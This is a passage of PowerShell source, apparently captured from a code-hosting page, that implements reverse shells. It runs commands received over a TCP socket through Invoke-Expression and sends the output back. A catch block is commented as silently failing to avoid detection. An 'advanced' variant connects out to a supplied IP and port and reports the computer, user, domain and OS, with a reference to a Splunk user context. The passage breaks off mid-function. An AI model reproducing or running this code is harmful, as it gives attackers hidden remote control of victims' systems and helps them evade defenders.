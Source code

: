 ```powershell
                $result = (Invoke-Expression $data 2>&1 | Out-String)
                
                # Add prompt
                $prompt = "PS $((Get-Location).Path)> "
                $sendback = $result + $prompt
                
                # Send response
                $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback)
                $stream.Write($sendbyte, 0, $sendbyte.Length)
                $stream.Flush()
                
            } catch {
                # Send error message
                $error = "Error: $($_.Exception.Message)`nPS $((Get-Location).Path)> "
                $errorbyte = ([text.encoding]::ASCII).GetBytes($error)
                $stream.Write($errorbyte, 0, $errorbyte.Length)
                $stream.Flush()
            }
        }
        
    } catch {
        # Silently fail to avoid detection
    } finally {
        if ($client) { $client.Close() }
    }
}

# Advanced PowerShell reverse shell with enhanced features
function Invoke-AdvancedReverseShell {
    param($IP, $Port)
    
    try {
        $client = New-Object System.Net.Sockets.TCPClient($IP, $Port)
        $stream = $client.GetStream()
        
        # System information gathering
        $sysinfo = @"
[+] System Information:
Computer: $env:COMPUTERNAME
User: $env:USERNAME
Domain: $env:USERDOMAIN
OS: $(Get-WmiObject Win32_OperatingSystem | Select-Object -ExpandProperty Caption)
Architecture: $env:PROCESSOR_ARCHITECTURE
PowerShell Version: $($PSVersionTable.PSVersion)
Splunk User Context: $(whoami)
Working Directory: $(Get-Location)

"@
        
        $sysinfoBytes = [System.Text.Encoding]::ASCII.GetBytes($sysinfo)
        $stream.Write($sysinfoBytes, 0, $sysinfoBytes.Length)
        $stream.Flush()
        
        # Enhanced command execution loop
        [byte[]]$bytes = 0..65535 | %{0}
        
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
            $command = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i).Trim()
            
            # Handle special commands
            switch -Regex ($command) {
                '^exit$' {
```